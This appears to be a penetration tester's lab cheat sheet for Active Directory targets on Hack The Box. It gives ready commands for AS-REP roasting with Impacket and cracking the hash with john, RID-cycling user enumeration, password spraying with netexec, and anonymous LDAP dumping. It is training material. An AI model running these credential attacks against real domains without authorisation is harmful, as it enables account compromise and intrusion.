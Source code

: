 Save the users in a file called users.txt
```
for user in $(cat ../users.txt); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
```
for user in $(cat ./users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done 
```
### crack the $23$ hash with john
```
john --wordlist=/usr/share/wordlists/rockyou.txt svc_alfresco 
```
# Share Searching
try a RID cycling attack, by bruteforcing Windows user security identifiers (SIDs) by incrementing the relative identifier (RID) part. The Impacket script loopupside.py will do this nicely:
```
lookupsid.py 0xdf@manager.htb -no-pass
```
```
oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
```
# netexec
## User Enumeration
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```
## Trying to login with passwords same as user
```
netexec smb manager.htb -u users -p users --continue-on-success --no-brute
```
# Gathering Users with LDAP Anonymous -p389
## ldapsearch
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
Save the users to a file
You can create a custom password list and attempt to Password Spray
```
This above command is not working, check for any updates or modifications
```
```
ldapsearch -H ldap://dc01.manager.htb -x -s base namingcontexts
```
If you have valid credentials you can use ldapdomaindump to get the info 
```
oxdf@hacky$ ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ldap/
```
The user and password is operator in the above example
## windapsearch
```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
# LLMNR/NBTS Poisoning
